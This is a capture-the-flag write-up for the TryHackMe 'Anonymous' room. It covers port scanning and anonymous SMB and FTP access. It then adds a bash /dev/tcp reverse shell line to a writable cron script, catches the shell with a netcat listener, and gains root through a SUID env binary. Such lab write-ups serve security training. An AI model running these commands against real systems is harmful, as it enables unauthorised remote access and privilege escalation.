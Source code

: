 # **Anonymous**
This is a writeup for the TryHackMe room [anonymous](https://tryhackme.com/room/anonymous).

The questions ask about ports, so let's start with an nmap scan.

```bash
nmap -sV $ip
```

![nmap_scan](assets/images/anonymous/nmap_scan.png)

This nmap scan shows us that ports 21, 22, 139 and 445 are open. Port 21 is used for FTP, port 22 is used for ssh and ports 139 and 445 are use for SMB.

Let's check for SMB shares.

```bash
smbmap -H $ip -R
```

![smbmap](assets/images/anonymous/smbmap.png)

This shows us two files that we can download, corgo2.jpg and puppos.jpeg.

```bash
smbget -R smb://$ip/pics
```

When prompted for a password, just press **ENTER**.

![smbget](assets/images/anonymous/smbget.png)

![corgo](assets/images/anonymous/corgo2.jpg)

![corgos](assets/images/anonymous/puppos.jpeg)

These look like they're just pictures of dogs but let's exiftool them just in case.

![exif](assets/images/anonymous/exif.png)

Nothing interesting there. SMB seems to be a dead end for now, let's check FTP.

```bash
ftp $ip
```

When prompted for a username input **anonymous**, and when prompted for a password press **ENTER**.

![ftp_shown](assets/images/anonymous/ftp_show.png)

The scripts folder has some interesting sounding files in it, so let's get those. The command `get` can be used to download files from FTP.

![ftp_get](assets/images/anonymous/ftp_get.png)

Let's see what those files are, **clean.sh** seems the most interesting so we'll check that first.

![clean-sh](assets/images/anonymous/clean-sh-cat.png)

It seems to delete temporary files, so maybe it's a cronjob? We'll look in to that in a minute, first lets see what those other files are.

![cleanuplog](assets/images/anonymous/cleanuplog.png)

Nothing useful there. Let's check **to_do.txt**, it's nothing interesting either.

Back to that **clean.sh** file, maybe we can add to that file and see if anything happens. We can use `curlftpfs` to mount and change the file.

First we need to create a folder for the files to mount to.

```bash
mkdir ftp
```

Then we run `curlftpfs`.

```bash 
sudo curlftpfs anonymous@$ip ftp/
```

![ftpfs](assets/images/anonymous/ftpfs.png)

Now we need to edit the **clean.sh** file, we can do that with any text editor but for now we'll just use `nano`.

```sh
sudo nano ftp/scripts/clean.sh
```

![nano1](assets/images/anonymous/nano1.png)

We're going to add a line to give us a reverse shell. Credit goes to the [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp) github repo for the reverse shell.

```bash
bash -i >& /dev/tcp/$yourip/4242 0>&1
```

![nano2](assets/images/anonymous/nano2.png)

Now we need to set up a netcat listener, we can use the following command for this.

```sh
nc -lnvp 4242
```

And now we wait...

![flag1](assets/images/anonymous/flag1.png)

Once we have a reverse shell we can print out the user flag. We should probably stabilise our shell, we can do that with python.

```sh
python -c 'import pty; pty.spawn("/bin/sh")'
```

Now that that's done let's move on to priv-esc. First we'll check for **SUID** binaries.

```sh
find / -user root -perm -4000 -print 2>/dev/null
```

![suid](assets/images/anonymous/suid.png)

The only thing out of the ordinary there is `env`, so let's check [GTFOBins](https://gtfobins.github.io/gtfobins/env/#suid) to see if they have any suggestions.

```sh
env /bin/sh -p
```

This will give us root and allow us to get the flag.

![root](assets/images/anonymous/root.png)
